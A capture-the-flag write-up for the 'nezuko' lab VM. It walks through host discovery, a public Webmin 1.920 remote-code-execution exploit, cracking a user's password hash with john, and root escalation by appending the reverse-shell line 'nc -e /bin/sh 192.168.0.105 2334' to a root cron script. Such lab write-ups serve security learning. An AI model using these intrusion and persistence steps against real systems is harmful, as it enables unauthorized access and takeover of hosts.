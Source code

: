 

### **Netdiscover**


![netdiscover](images/nezuko/netdiscover.png)


We use the tools called netdiscover scan hosts, we found the 192.168.0.106 is our target virtualbox host ip.

------

### **Namp**

![nmap.ong](images/nezuko/nmap.ong.png)


We found some services  <u>SSH</u>, <u>HTTP</u>, <u>HTTP(webmin)</u>

------

### Solution

![google](images/nezuko/google.png)

By googling webmin 1.920, we can find there exists a Remote code Execution Attack.We can download from 

[https://www.exploit-db.com/exploits/47293](https://www.exploit-db.com/exploits/47293)

![exploit_test](images/nezuko/exploit_test.png)

run this exploit bash, we can find this webmin system is vulnerable.

so we use instead his cmd with our reverse shell.

![exploit](images/nezuko/exploit.png)

We nc listen 2333,  run this exploit , we can connect to this host.

![reverse_shell](images/nezuko/reverse_shell.png)

Now we go into nezuko home directory, we found a .ssh directory and a nezuko.txt(flag)

![ls1](images/nezuko/ls1.png)

We put our authorized_keys upload, so that we can use shell better.

![ls2](images/nezuko/ls2.png)

we go into from_zenitsu directory, found root may log in this directory.
![find_zenitsu_dir](images/nezuko/find_zenitsu_dir.png)

emmm......

now we return /home directory, we found zenitsu, go into zenitsu home directory, found zenitsu.txt（flag）

![ls3](images/nezuko/ls3.png)

luckily, we found a send_message_to_nezuko.sh, have group zenitsu:root privilege.

![ls4](images/nezuko/ls4.png)So the scripts may be run by crontab in user called root .

poorly,  we don't own the zenitsu privilege, so we cat /ect/passwd, found his password hash.

![passwd](images/nezuko/passwd.png)

So we use john to brute force this password, the password is meowmeow.
![john](images/nezuko/john.png)


We ssh login user zenitsu with his password. otherwise, zenitsu is not allowed to login in ssh, so we

su - zenitsu, successfully.

![root](images/nezuko/root.png)


so we `echo 'nc -e /bin/sh 192.168.0.105 2334' >> send_message_to_nezuko.sh`

wait a little time , we can connect from user root.

that's all, thanks for reading ^_^

------

**That' all , Thanks for your watching**
